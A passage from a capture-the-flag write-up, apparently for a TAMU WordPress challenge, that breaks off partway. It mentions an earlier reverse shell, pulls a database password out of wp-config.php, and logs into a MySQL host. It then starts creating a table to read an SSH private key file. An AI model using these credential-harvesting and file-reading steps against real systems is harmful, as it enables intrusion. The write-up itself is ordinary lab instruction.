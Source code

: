 But hey it did work and I got my reverse shell! Cool, part 1 finished.

Next step is to figure out how we can escalate our privileges to root. Let’s enumerate.

Without going very far I found an interesting file in /var/www called note.txt.

{% highlight cmd %}

Your ssh key was placed in /backup/id_rsa on the DB server.

{% endhighlight %}

Hum? So the mysql database running for the wordpress, is not running in this server? Let’s find out where it is.

By going through the Wordpress config files we must check wp-config.php.

{% highlight sql %}

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', '0NYa6PBH52y86C');

/** MySQL hostname */
define('DB_HOST', '172.30.0.2');

{% endhighlight %}

That’s interesting, we got DB_NAME, DB_USER, DB_PASSWORD and DB_HOST

At this time the challenge is basically over. Let’s connect to the mysql server.

{% highlight cmd %}

~/ctf/tamu/wordpress # mysql -h 172.30.0.2 -u wordpress -p0NYa6PBH52y86C   
root@kali Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 65
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL>

{% endhighlight %}

We got our connection, so we’re inside the 172.30.0.2 where the backup ssh key is stored at /backup/id_rsa all we have to do now is read this file with mysql.

So i created a table foo inside Mysql database.

{% highlight cmd %}

MySQL [mysql]> create table foo(line blob);
Query OK, 0 rows affected (0.20 sec)

MySQL [mysql]>

{% endhighlight %}
